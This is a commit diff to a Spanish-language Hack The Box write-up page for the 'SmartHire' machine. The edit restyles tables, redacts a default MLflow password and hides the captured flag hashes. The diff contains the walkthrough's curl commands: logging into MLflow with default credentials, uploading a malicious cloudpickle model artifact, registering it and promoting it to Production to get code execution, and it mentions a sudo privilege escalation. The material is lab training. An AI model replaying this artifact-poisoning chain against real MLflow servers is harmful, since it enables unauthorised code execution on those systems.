

Before and after one commit to Cosm3No1de/SmartHire-HTB-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 1010-2684 px from the top of the page at 74% size. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,9 +4,8 @@
     <meta charset="UTF-8" />
     <meta name="viewport" content="width=device-width, initial-scale=1.0" />
     <title>SmartHire · Hack The Box Writeup</title>
-    <!-- Estilos CSS modernos y profesionales -->
     <style>
-        /* Reset básico */
+        /* Reset y estilos base */
         * {
             margin: 0;
             padding: 0;
@@ -28,7 +27,6 @@
             box-shadow: 0 25px 50px -12px rgba(0,0,0,0.8);
             border: 1px solid #2a3346;
         }
-        /* Header */
         .header-image {
             width: 100%;
             border-radius: 1.5rem;
@@ -161,7 +159,25 @@
             border: 1px solid #3d4a5e;
             letter-spacing: 0.5px;
         }
-        /* Footer */
+        table {
+            width: 100%;
+            border-collapse: collapse;
+            margin: 1.2rem 0;
+            font-size: 0.95rem;
+        }
+        th, td {
+            border: 1px solid #2a3346;
+            padding: 0.6rem 1rem;
+            text-align: left;
+        }
+        th {
+            background: #1a2332;
+            color: #b9c7e0;
+            font-weight: 600;
+        }
+        td {
+            color: #c8d0e0;
+        }
         footer {
             margin-top: 3.5rem;
             padding-top: 2rem;
@@ -203,14 +219,12 @@
             color: #93bbfc;
             text-decoration: underline;
         }
-        /* Responsive */
         @media (max-width: 700px) {
             body { padding: 1rem 0.8rem; }
             .container { padding: 1.5rem 1rem; border-radius: 1.2rem; }
             h1 { font-size: 2rem; }
             .grid-2 { grid-template-columns: 1fr; }
         }
-        /* Scrollbar bonito */
         ::-webkit-scrollbar { width: 8px; height: 8px; }
         ::-webkit-scrollbar-track { background: #141a24; }
         ::-webkit-scrollbar-thumb { background: #2d3a4f; border-radius: 10px; }
@@ -221,7 +235,7 @@
 
 <div class="container">
 
-    <!-- IMAGEN PRINCIPAL (cargada desde la raíz del repositorio) -->
+    <!-- IMAGEN PRINCIPAL -->
     <img src="smarthire.png" alt="SmartHire logo" class="header-image" />
 
     <h1>SmartHire</h1>
@@ -235,10 +249,10 @@
         <h2>📌 Resumen Ejecutivo</h2>
         <div class="highlight-box">
             <p><strong>IP:</strong> 10.129.245.215 &nbsp;|&nbsp; <strong>Servicios:</strong> SSH (22), HTTP (80)</p>
-            <p><strong>Vector inicial:</strong> Fuzzing de subdominios → <code>models.smarthire.htb</code> (MLflow) con credenciales por defecto <code>admin:password</code>.</p>
+            <p><strong>Vector inicial:</strong> Fuzzing de subdominios → <code>models.smarthire.htb</code> (MLflow) con credenciales por defecto <code>admin:[REDACTED]</code>.</p>
             <p><strong>Explotación:</strong> Inyección de artefacto <code>python_model.pkl</code> malicioso (cloudpickle) en MLflow, provocando RCE al llamar a <code>/predict</code>.</p>
             <p><strong>Escalada:</strong> Abuso de <code>sudo</code> en script Python que procesa archivos <code>.pth</code> en directorio escribible por grupo <code>devs</code>, obteniendo shell <strong>root</strong>.</p>
-            <p><strong>Flags:</strong> <span class="flag">user.txt</span> (omitida) · <span class="flag">root.txt: e8bb6cb4af78805b2dbe178f5f9ccfc4</span></p>
+            <p><strong>Flags:</strong> <span class="flag">user.txt</span> (obtenida) · <span class="flag">root.txt</span> (obtenida)</p>
         </div>
     </section>
 
@@ -250,12 +264,15 @@
         <div class="code-block">
             <span class="cmd">nmap -sS -sC -sV -T4 -Pn 10.129.245.215</span>
         </div>
-        <div class="grid-2">
-            <div class="item"><span class="label">Puerto 22</span><div class="value">SSH · OpenSSH 8.9p1</div></div>
-            <div class="item"><span class="label">Puerto 80</span><div class="value">HTTP · nginx 1.18.0</div></div>
-        </div>
+        <table>
+            <thead><tr><th>Puerto</th><th>Servicio</th><th>Versión</th></tr></thead>
+            <tbody>
+                <tr><td>22/tcp</td><td>SSH</td><td>OpenSSH 8.9p1 Ubuntu</td></tr>
+                <tr><td>80/tcp</td><td>HTTP</td><td>nginx 1.18.0 (Ubuntu)</td></tr>
+            </tbody>
+        </table>
 
-        <h3>Descubrimiento de vhosts</h3>
+        <h3>Descubrimiento de VHosts</h3>
         <div class="code-block">
             <span class="cmd">ffuf -u http://smarthire.htb -H "Host: FUZZ.smarthire.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 169</span>
             <br /><span class="output">models &nbsp; [Status: 401, Size: 137] → WWW-Authenticate: Basic realm="mlflow"</span>
@@ -272,18 +289,19 @@
 
         <h3>Credenciales por defecto</h3>
         <div class="code-block">
-            <span class="cmd">curl -s -u admin:password http://models.smarthire.htb/</span>
+            <span class="cmd">curl -s -u admin:[REDACTED] http://models.smarthire.htb/</span>
             <br /><span class="output">&lt;!doctype html&gt;... (HTML de MLflow)</span>
         </div>
+        <p>✅ Acceso confirmado. El servicio expone la interfaz de MLflow.</p>
 
         <h3>Creación de experimento y run</h3>
         <div class="code-block">
-            <span class="cmd"># Crear experimento</span>
-            <span class="cmd">curl -X POST -u admin:password "http://models.smarthire.htb/ajax-api/2.0/mlflow/experiments/create" -H "Content-Type: application/json" -d '{"name": "SmartHire"}'</span>
+            <span class="comment"># Crear experimento</span>
+            <span class="cmd">curl -X POST -u admin:[REDACTED] "http://models.smarthire.htb/ajax-api/2.0/mlflow/experiments/create" -H "Content-Type: application/json" -d '{"name": "SmartHire"}'</span>
             <br /><span class="output">{"experiment_id": "299186230178410763"}</span>
             <br /><br />
-            <span class="cmd"># Crear run</span>
-            <span class="cmd">curl -X POST -u admin:password "http://models.smarthire.htb/ajax-api/2.0/mlflow/runs/create" -H "Content-Type: application/json" -d '{"experiment_id": "299186230178410763", "start_time": 1700000000000, "tags": [{"key": "mlflow.runName", "value": "testcompany-run"}]}'</span>
+            <span class="comment"># Crear run</span>
+            <span class="cmd">curl -X POST -u admin:[REDACTED] "http://models.smarthire.htb/ajax-api/2.0/mlflow/runs/create" -H "Content-Type: application/json" -d '{"experiment_id": "299186230178410763", "start_time": 1700000000000, "tags": [{"key": "mlflow.runName", "value": "testcompany-run"}]}'</span>
             <br /><span class="output">{"run": {"info": {"run_uuid": "35c41f3b28964ceab42b804d82d5cfee", ...}}}</span>
         </div>
 
@@ -317,19 +335,19 @@
         </div>
         <p>Subida y creación de versiones:</p>
         <div class="code-block">
-            <span class="cmd"># Subir MLmodel y python_model.pkl</span>
-            <span class="cmd">curl -X POST -u admin:password "http://models.smarthire.htb/ajax-api/2.0/mlflow/upload-artifact?run_uuid=35c41f3b28964ceab42b804d82d5cfee&path=model/MLmodel" -H "Content-Type: text/plain" --data-binary @/tmp/MLmodel</span>
-            <span class="cmd">curl -X POST -u admin:password "http://models.smarthire.htb/ajax-api/2.0/mlflow/upload-artifact?run_uuid=35c41f3b28964ceab42b804d82d5cfee&path=model/python_model.pkl" -H "Content-Type: application/octet-stream" --data-binary @/tmp/python_model.pkl</span>
+            <span class="comment"># Subir MLmodel y python_model.pkl</span>
+            <span class="cmd">curl -X POST -u admin:[REDACTED] "http://models.smarthire.htb/ajax-api/2.0/mlflow/upload-artifact?run_uuid=35c41f3b28964ceab42b804d82d5cfee&path=model/MLmodel" -H "Content-Type: text/plain" --data-binary @/tmp/MLmodel</span>
+            <span class="cmd">curl -X POST -u admin:[REDACTED] "http://models.smarthire.htb/ajax-api/2.0/mlflow/upload-artifact?run_uuid=35c41f3b28964ceab42b804d82d5cfee&path=model/python_model.pkl" -H "Content-Type: application/octet-stream" --data-binary @/tmp/python_model.pkl</span>
             <br /><br />
-            <span class="cmd"># Crear el modelo con el nombre exacto (obtenido de /model_info)</span>
-            <span class="cmd">curl -X POST -u admin:password "http://models.smarthire.htb/ajax-api/2.0/mlflow/registered-models/create" -H "Content-Type: application/json" -d '{"name": "testcompany-209c9516c5b6-model"}'</span>
+            <span class="comment"># Crear el modelo con el nombre exacto (obtenido de /model_info)</span>
+            <span class="cmd">curl -X POST -u admin:[REDACTED] "http://models.smarthire.htb/ajax-api/2.0/mlflow/registered-models/create" -H "Content-Type: application/json" -d '{"name": "testcompany-209c9516c5b6-model"}'</span>
             <br /><br />
-            <span class="cmd"># Crear versiones 1, 2, 3 (la versión 3 contiene el payload final)</span>
-            <span class="cmd">curl -X POST -u admin:password "http://models.smarthire.htb/ajax-api/2.0/mlflow/model-versions/create" -H "Content-Type: application/json" -d '{"name": "testcompany-209c9516c5b6-model", "source": "mlflow-artifacts:/299186230178410763/35c41f3b28964ceab42b804d82d5cfee/artifacts/model", "run_id": "35c41f3b28964ceab42b804d82d5cfee"}'</span>
+            <span class="comment"># Crear versiones 1, 2, 3 (la versión 3 contiene el payload final)</span>
+            <span class="cmd">curl -X POST -u admin:[REDACTED] "http://models.smarthire.htb/ajax-api/2.0/mlflow/model-versions/create" -H "Content-Type: application/json" -d '{"name": "testcompany-209c9516c5b6-model", "source": "mlflow-artifacts:/299186230178410763/35c41f3b28964ceab42b804d82d5cfee/artifacts/model", "run_id": "35c41f3b28964ceab42b804d82d5cfee"}'</span>
             <br /><span class="output">{"model_version": {"version": "3", ...}}</span>
             <br /><br />
-            <span class="cmd"># Promover versión 3 a Production</span>
-            <span class="cmd">curl -X POST -u admin:password "http://models.smarthire.htb/ajax-api/2.0/mlflow/model-versions/transition-stage" -H "Content-Type: application/json" -d '{"name": "testcompany-209c9516c5b6-model", "version": "3", "stage": "Production"}'</span>
+            <span class="comment"># Promover versión 3 a Production</span>
+            <span class="cmd">curl -X POST -u admin:[REDACTED] "http://models.smarthire.htb/ajax-api/2.0/mlflow/model-versions/transition-stage" -H "Content-Type: application/json" -d '{"name": "testcompany-209c9516c5b6-model", "version": "3", "stage": "Production"}'</span>
         </div>
     </section>
 
@@ -339,11 +357,11 @@
 
         <h3>Obtención de sesión en SmartHire</h3>
         <div class="code-block">
-            <span class="cmd"># Registro de usuario</span>
+            <span class="comment"># Registro de usuario</span>
             <span class="cmd">curl -c cookies.txt -X POST http://smarthire.htb/register -d "username=test&password=test&company=testcompany"</span>
             <br /><span class="output">Redirecting to /login ...</span>
             <br /><br />
-            <span class="cmd"># Login</span>
+            <span class="comment"># Login</span>
             <span class="cmd">curl -b cookies.txt -c cookies.txt -X POST http://smarthire.htb/login -d "username=test&password=test"</span>
             <br /><span class="output">Redirecting to /dashboard ...</span>
         </div>
@@ -413,16 +431,13 @@
     <!-- 5. Flags -->
     <section class="section">
         <h2>🏁 5. Flags</h2>
-        <div class="grid-2">
-            <div class="item">
-                <span class="label">Flag de usuario</span>
-                <div class="value"><span class="flag">user.txt</span> (omitida por seguridad)</div>
-            </div>
-            <div class="item">
-                <span class="label">Flag de root</span>
-                <div class="value"><span class="flag">e8bb6cb4af78805b2dbe178f5f9ccfc4</span></div>
-            </div>
-        </div>
+        <table>
+            <thead><tr><th>Flag</th><th>Estado</th></tr></thead>
+            <tbody>
+                <tr><td><code>user.txt</code></td><td>✅ Obtenida (hash oculto por seguridad)</td></tr>
+                <tr><td><code>root.txt</code></td><td>✅ Obtenida (hash oculto por seguridad)</td></tr>
+            </tbody>
+        </table>
     </section>
 
     <!-- 6. Lecciones aprendidas -->
```
